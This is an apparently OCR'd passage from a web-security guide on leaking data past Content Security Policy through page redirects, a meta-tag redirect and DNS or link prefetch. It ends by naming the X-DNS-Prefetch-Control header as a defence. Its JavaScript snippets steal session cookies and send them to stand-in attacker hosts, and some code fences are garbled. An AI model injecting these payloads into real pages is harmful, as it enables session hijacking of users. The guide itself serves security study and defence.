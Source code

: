 ```
You could just update the location to send to the attacker's server the secret information:

```javascript
var sessionid = document.cookie.split("=")[1] + "."
document.location = "https://attacker.com/?" + sessionid
```
```
### Meta tag

You could redirect by injecting a meta tag (this is just a redirect, this won't leak content)

```html


```
```
### DNS Prefetch

To load pages faster, browsers are going to pre-resolve hostnames into IP addresses and cache them for later usage.\
You can indicate a browser to pre-resolve a hostname with: `<link rel="dns-prefetch" href="something.com">`

You could abuse this behaviour to **exfiltrate sensitive information via DNS requests**:

```javascript
var sessionid = document.cookie.split("=")[1] + "."
var body = document.getElementsByTagName("body")[0]
body.innerHTML =
  body.innerHTML +
  '<link rel="dns-prefetch" href="//' +
  sessionid +
  'attacker.ch">'
```
```
Another way:

```javascript
const linkEl = document.createElement("link")
linkEl.rel = "prefetch"
linkEl.href = urlWithYourPreciousData
document.head.appendChild(linkEl)
```
```
In order to avoid this from happening the server can send the HTTP header:

```
X-DNS-Prefetch-Control: off
```
```
> [!TIP]
> Apparently, this technique doesn't work in headless browsers (bots)

### WebRTC

